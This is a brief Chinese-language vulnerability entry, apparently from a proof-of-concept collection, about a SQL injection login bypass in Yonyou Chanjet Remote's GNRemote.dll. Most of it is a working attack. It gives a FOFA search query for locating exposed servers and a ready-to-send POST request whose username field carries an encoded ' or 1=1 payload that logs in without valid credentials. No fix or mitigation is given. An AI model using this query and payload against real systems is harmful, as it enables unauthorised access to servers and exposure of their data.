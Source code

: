 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

```
用友 畅捷通远程通
```

## FOFA

```
body="远程通CHANJET_Remote"
```

## 漏洞复现

登录页面

![image-20221017171544062](./images/202210171715136.png)

验证POC

```
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![image-20221017171557552](./images/202210171715601.png)

![image-20221017171609942](./images/202210171716987.png)